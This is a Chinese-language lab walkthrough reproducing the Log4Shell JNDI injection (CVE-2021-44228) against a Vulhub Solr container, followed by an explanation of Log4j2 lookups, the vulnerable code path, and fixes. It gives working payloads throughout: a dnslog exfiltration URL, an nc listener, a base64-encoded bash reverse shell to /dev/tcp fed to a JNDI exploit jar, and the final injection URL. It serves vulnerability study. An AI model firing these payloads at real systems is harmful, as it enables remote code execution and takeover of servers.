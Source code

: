 # CVE-2021-44228：Apache Log4j2 lookup JNDI 注入漏洞

## 漏洞复现

1. 环境搭建

```python
cd /vulhub/log4j/CVE-2021-44228
sudo docker-compose up -d
# 访问网站
http://127.0.0.1:8983/solr/#/
```

![](./img/solr界面.png)        

2. 申请一个dns域名，[点击](http://www.dnslog.cn/)，得到`lpjzt8.dnslog.cn`       

![](./img/申请的域名.png)     

3. 请求：`http://靶场IP:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.你申请的DNS域名}`，也就是：`http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.lpjzt8.dnslog.cn}`

![](./img/获取javaversion.png)        

也可以用burpsuit进行发包

```html
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.0j1wnq.dnslog.cn} HTTP/1.1
Host: 192.168.56.103:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

没反应

4. 刷新一下`refresh record`，发现返回了java版本           

![](./img/poc成功.png)         

5. 开启监听端口：`nc -lvvp 19999`

6. (java需要提前安装)下载漏洞利用的jar文件 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
```bash
git clone https://github.com/bkfish/Apache-Log4j-Learning.git
```
7. bash反弹命令：`bash -i >& /dev/tcp/192.168.56.103/19999 0>&1`，然后进行base64编码：`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwMy8xOTk5OSAwPiYx`
8. 执行Exp
```bash
cd Apache-Log4j-Learning/tools
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwMy8xOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.56.103"

```
![](./img/生成的payload.png)          

9. 构造payload
```bash
http://192.168.56.103:8983/solr/admin/cores?action=${jndi:ldap://192.168.56.103:1389/u0ccwz}
```
10. 拿到shell                     

![](./img/getshell.png)     

## Apache Log4j2 lookup JNDI 注入漏洞

Log4j2是Java的日志组件，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码           

**环境复现**：使用的是Apache Solr 8.11.0

### Log4j2 Lookup

Log4j2的Lookup主要功能是通过**引用一些变量，往日志中添加动态的值**。这些变量可以是外部环境变量，也可以是MDC中的变量，还可以是日志上下文数据等。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.ThreadContext;

public class Log4j2Lookup {
    public static final Logger LOGGER = LogManager.getLogger(Log4j2RCEPoc.class);

    public static void main(String[] args) {
        ThreadContext.put("userId", "test");
        LOGGER.error("userId: ${ctx:userId}");
    }
}
10:21:19.618 [main] ERROR Log4j2RCEPoc - userId: test
```

通过在日志字符串中加入`${ctx:userId}`，Log4j2在输出日志时，会自动在Log4j2的`ThreadContext`中查找

并引用`userId`变量。格式类似"${type:var}"，即可以实现对变量var的引用。type可以是如下值：

- ctx：允许程序将数据存储在 Log4j `ThreadContext`Map 中，然后在日志输出过程中，查找其中的值。
- env：允许系统在全局文件（如 /etc/profile）或应用程序的启动脚本中配置环境变量，然后在日志输出过程中，查找这些变量。例如：`${env:USER}`。
- java：允许查找Java环境配置信息。例如：`${java:version}`。
- jndi：允许通过 JNDI 检索变量。

其中和本次漏洞相关的便是jndi，例如：`${jndi:rmi//127.0.0.1:1099/a}`，表示通过JNDI Lookup功能，获取`rmi//127.0.0.1:1099/a`上的变量内容。

### JNDI

> JNDI（Java Naming and Directory  Interface，Java命名和目录接口），是Java提供的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象(这就意味着通过这个接口可以操作目录服务和域名服务) 。**(可以类比理解NDS的功能)**

JCDI可以访问的现有的目录以及服务有：JDBC（获取数据库）、**LDAP（获取资源）、RMI（获取代码）**、DNS、NIS、CORBA              

RMI：remote method invoke，远程方法调用。客服端可以远程调用服务端上的方法                   

`${jndi:rmi://127.0.0.1:12345/obj}`：rmi就是服务类别，127.0.0.1:12345/obj表示所在的地方，会请求127.0.0.1:12345/obj这个资源，这个资源可以是一个函数（class）



- 代码分析
  	1. LOGGER.error调用`MessagePatternConverter.format()`对内容进行解析和格式化
  	1. `MessagePatternConverter.format()`遇到`${`子串时，调用`StrSubstitutor`进行进一步解析
  	1. `StrSubstitutor.resolveVariable()`提取`${}`中间的代码，传递给`Interpolator.lookup()`
  	1. `Interpolator.lookup()`对根据`prefix`命令进行进一步分类，调取对应的Lookup。例如`${jndi:ldap://192.168.56.103:1389/u0ccwz}`调用的实现函数为`JndiLookup.lookup()`
  	1. `JndiLookup.lookup()`方法调用`JndiManager.lookup()`方法，获取JNDI对象后，调用该对象上的`toString()`方法，最终返回该字符串。
  	1. `                        JndiManager.lookup()`较为简单，直接委托给`InitialContext.lookup()`方法

### 修复

- 更新log4j至 rc2([https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2%29)
- 配置防火墙策略，禁止主动连接外网设备
- 升级受影响的应用及组件
- 过滤相关的关键词，比如${jndi://*}

### 补充知识

- dnslog：
  - DNSlog就是存储在DNS服务器上的域名信息，它记录着用户对域名www.baidu.com等的访问信息，类似日志文件
  - 主要用于SQL盲注入、无回显的XSS、无回显的命令注入、无回显的SSRF和Blind XXE

## 参考资料

- [Log4j2远程代码执行漏洞复现(cve-2021-44228)](https://blog.csdn.net/weixin_47179815/article/details/125654828)
- [如何通过vulhub靶场复现log4j2漏洞](https://blog.csdn.net/weixin_46683781/article/details/122226317)
- [vulhub CVE-2021-44228](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228)

- [Log4j2的JNDI注入漏洞（CVE-2021-44228）原理分析与思考](https://www.freebuf.com/vuls/316143.html)
